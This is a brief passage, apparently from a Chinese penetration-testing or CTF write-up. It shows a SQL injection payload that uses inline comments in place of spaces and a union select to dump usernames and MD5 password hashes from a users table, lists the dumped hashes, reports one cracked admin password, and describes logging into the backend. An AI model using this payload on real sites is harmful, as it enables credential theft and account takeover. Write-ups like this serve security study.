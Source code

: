 [![](assets/1701678867-975d39cd7f14261f5e3d1f8817b95590.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203531-9e5877f6-8dea-1.png)

在看内容

```plain
OSI%'/**/union/**/select/**/group_concat(user,0x5c,pasword),2,3/**/from/**/users/**/where/**/'1'/**/like/**/'1
```

得到user/passwd

```plain
user1\5d41402abc4b2a76b9719d911017c592,
user2\6269c4f71a55b24bad0f0267d9be5508,
user3\0f359740bd1cda994f8b55330c86d845,
test\05a671c66aefea124cc08b76ea6d30bb,
superadmin\2386acb2cf356944177746fc92523983,
test1\05a671c66aefea124cc08b76ea6d30bb,
123\e10adc3949ba59abbe56e057f20f883e
```

进行MD5解密一下

```plain
superadmin/Uncrackable
```

重新登录一下

成功进入后台

[![](assets/1701678867-639d0f9aec3d45031e363caa36614fa5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203539-a3658658-8dea-1.png)
